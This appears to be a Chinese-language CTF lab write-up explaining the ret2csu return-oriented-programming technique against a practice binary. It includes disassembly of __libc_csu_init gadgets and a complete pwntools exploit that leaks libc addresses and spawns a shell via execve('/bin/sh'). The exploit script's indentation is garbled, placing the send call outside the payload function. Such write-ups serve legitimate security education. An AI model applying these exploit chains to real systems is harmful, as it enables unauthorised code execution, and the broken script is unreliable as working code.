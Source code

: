 > github：https://github.com/jovy-rtt/AzCTF-retcsu

# 一、要求

**ROP 利用**

1. 深入理解进程信息索引

   - 二进制程序

   - 虚拟内存空间

   - 基地址

2. 理解二进制防护（编译、链接时）以及防护目的
3. 理解Linux系统进程控制的基本数据结构
4. 深入理解二进制防护的手段以及目的

**选择**

```
level2：
	CTF-wiki的中级ROP之ret2csu
```

# 二、知识准备

## 环境配置

```
操作系统：kali-2023.1
GDB: GNU gdb (Debian 13.1-2) 13.1
GCC: gcc version 12.2.0 (Debian 12.2.0-14)
其他工具：gdb-peda、python、pwntools、objdump、LibcSearcher
```

## 原理

```
在64位程序中，函数的前6个参数通过寄存器传递。

这就需要我们通过gadgets操作寄存器，但是我们很难找到每个寄存器对应的gadgets。这时，我们可以利用x64下的__libc_csu_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般程序都会调用libc。

在Linux函数调用中：

	前6个参数从左向右依次放入rdi，rsi，rdx，rcx，r8，r9。

	超出6个的参数从右向左放入栈中
```

# 三、利用步骤

## checksec

![image-20230424094954561](./readme.assets/image-20230424094954561.png)

```
程序为 64 位，开启了堆栈不可执行保护。
```

## IDA分析

![image-20230424095100857](./readme.assets/image-20230424095100857.png)

```
程序中有一个简单的栈溢出，但没有其它函数信息，也没有system和/bin/sh。这就需要我们自己构造system和/bin/sh。同时寻找6个寄存器的gadgets比较困难，这个程序使用了libc。我们可以去__libc_csu_init函数寻找gadgets。
```

## gadgets

![image-20230424095742237](./readme.assets/image-20230424095742237.png)

 x64 下的 __libc_csu_init 中的 gadgets。这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定会存在。

```asm
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005C0 ; __unwind {
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 ; } // starts at 4005C0
.text:0000000000400624 __libc_csu_init endp
```

阅读后可以发现：

```
	从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。

	从 0x0000000000400600 到 0x0000000000400609，我们可以将 rdx = r13 , rsi = r14 ，rdi = r15d （虽然这里赋给的是 edi，但其实此时 rdi 的高 32 位寄存器值为 0）
	
	从 0x000000000040060D 到 0x0000000000400614，我们设为 rbx+1 = rbp，这样就可以跳过 loc_400600，进而可以继续执行下面的汇编程序。即 rbx=0，rbp=1。
	
	rbx和r12可以用来控制call命令
```

## 利用思路

csu函数的执行流程：

- 填充垃圾字符
  - 跳转到csu_end_addr处执行
- 将栈上的数据压入对应的寄存器（rbx、rbp、r12、r13、r14、r15
  - ret指令跳转到csu_start_addr处执行
- 将数据写入rdx、rsi、edi（前三个参数的寄存器）
  - 调用地址为r12 + rbx * 8的函数
- 填充垃圾字符（平衡堆栈）
  - ret指令返回last。

三次构造payload进行注入即：

```
利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。
```

## EXP

```python
#! /usr/bin/python3
from pwn import *
from LibcSearcher import *

  context(os = 'linux', arch = 'amd64', log_level = 'debug')

  p = process('./level5')
level5 = ELF('./level5')
  
  bss_base = level5.bss()
    main = level5.symbols['main']
  read_got = level5.got['read']
    write_got = level5.got['write']
  csu_start_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A
  
    def csu(rbx, rbp, r12, r13, r14, r15, last):
      #rbx = 0, rbp = 1;
        payload = 0x80 * b'a' + 8 * b'a'
      payload += p64(csu_end_addr)
        payload += flat([rbx, rbp, r12, r13, r14, r15])
        payload += p64(csu_start_addr)
        payload += 56 * b'a'
        payload += p64(last)
        
  p.send(payload)
  sleep(1)
  #write write addr
  p.recvuntil('Hello, World\n')
  csu(0, 1, write_got, 8, write_got, 1, main)
  
  #get system address
  write_addr = u64(p.recv(8))
  libc = LibcSearcher('write', write_addr)
  libc_base = write_addr - libc.dump('write')
  system_addr = libc_base + libc.dump('execve')
  
  #write system and binsh to bss
  p.recvuntil('Hello, World\n')
  csu(0, 1, read_got, 16, bss_base, 0, main)
  p.send(p64(system_addr) + b'/bin/sh\x00')
  
  #run system and binsh
  p.recvuntil('Hello, World\n')
  csu(0, 1, bss_base, 0, 0, bss_base + 8, main)
  
  p.interactive()
```

## 结果

![image-20230424100950596](./readme.assets/image-20230424100950596.png)

# 四、参考

- http://wooyun.jozxing.cc/static/drops/papers-7551.html
- http://wooyun.jozxing.cc/static/drops/binary-10638.html
- https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/
- https://blog.xxxb.cn/2021/05/21/MediumROP-ret2csu/
- https://deoplljj.com/2021/08/ret2libcret2csu/
